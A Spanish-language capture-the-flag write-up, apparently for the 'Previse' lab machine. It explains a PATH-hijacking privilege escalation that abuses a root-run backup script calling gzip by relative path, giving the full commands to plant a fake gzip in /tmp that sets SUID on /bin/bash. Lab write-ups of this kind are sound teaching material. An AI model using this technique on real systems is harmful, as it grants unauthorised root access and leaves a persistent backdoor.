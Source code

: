 ```Shell
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Explicación:  tenemos un script que podemos ejecutar como usuario root

**Primero** confirmamos que no tenemos permisos de escritura en este archivo. 
**Segundo** analizamos el script que podemos ejecutar con `cat`

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

**Tercero** confirmamos posible [PATH Hijacking](../../../Técnicas/Escalada%20de%20privilegios/PATH%20Hijacking.md) ya que el comando `gzip` se esta ejecutando de forma relativa. Por lo que podemos atentar contra el `PATH` del sistema, modificándolo para que busque el recurso `gzip` en una ruta anterior en la que realmente se almacena

```bash
bash-4.4$ gzip  # vemos que se ejecuta relativamente
gzip: compressed data not written to a terminal. Use -f to force compression.
For help, type: gzip -h
bash-4.4$ which gzip   # su binario es este
/bin/gzip
echo $PATH     # así está el PATH actualmente
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
cd /tmp/    # vamos al directorio /tmp
touch gzip  # creamos un archivo llamado gzip 
chmod +x gzip   # le damos permisos de ejecución
```

Acción:  con `nano gzip` editamos el archivo añadiendo lo siguiente

```Shell
#!/bin/bash

chmod u+s /bin/bash
```

Acción:

```Shell
export PATH=/tmp/:$PATH
```

Explicación:  hemos dado permisos [SUID](../../../Técnicas/Escalada%20de%20privilegios/SUID.md) al binario `/bin/bash` lo que nos va a permitir ejecutarnos una bash como `root`, además lo hemos añadido al PATH para que este al principio y cuando ejecutemos el script con permisos de root acuda primero a nuestra ruta para acceder a gzip y habilite los permisos SUID al binario bash
